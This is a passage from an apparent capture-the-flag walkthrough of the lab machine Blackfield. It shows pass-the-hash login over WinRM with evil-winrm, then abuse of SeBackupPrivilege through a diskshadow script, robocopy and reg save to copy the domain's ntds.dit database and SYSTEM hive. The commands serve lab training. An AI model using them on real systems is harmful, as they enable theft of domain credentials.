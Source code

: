 ```bash
# logging into the box using WinRM
evil-winrm -i 10.10.10.192 -u svc_backup -H $(cat svcbackup_hash)
# reading the user flag
type ..\desktop\user.txt
```

<figure><img src="../../../.gitbook/assets/blackfield_user_txt.png" alt=""><figcaption><p>FigureFigure 14: Using svc_backup's hash to log into the box via WinRM. </p></figcaption></figure>

## Exfiltrating Victory

Next, we can follow the steps listed [here](https://www.hackingarticles.in/windows-privilege-escalation-sebackupprivilege/), under the _Exploiting Privilege on Domain Controller (Method 1)_ section, and compromise the `ntds.dit` database by:

1. Writing a small script for the [**diskshadow**](https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/diskshadow) utility to expose the `c:` drive
2. Converting the script in a Windows-compatible format
3. Moving to a directory with write access
4. Uploading the script on the target
5. Exposing the shadow copy
6. Copying `ntds.dit` to the working directory
7. Copying the `system.hive` to the working directory
8. Downloading the `ntds.dit` and `system.hive` files

{% tabs %}
{% tab title="1. Creating the diskshadow script" %}
```bash
# creating a diskshadow script
nano diskshadow_script
# listing its content
cat diskshadow_script
set context persistent nowriters
add volume c: alias random
create
expose %random% z:
# convert file into a Windows-compatible format
$ sudo unix2dos diskshadow_script
unix2dos: converting file diskshadow_script to DOS format...
```
{% endtab %}

{% tab title="2. Exfiltrating ntds.dit & system.hive" %}
```powershell
# move within a writeable directory
cd c:\windows\temp
# upload the diskshadow script
upload diskshadow_script
# expose the shadow copy
diskshadow /s diskshadow_script
# copy the ntds.dit database
robocopy /b z:\windows\ntds . ntds.dit
# copy the system.hive file
reg save hklm\system c:\windows\temp\system.hive
# download both files
```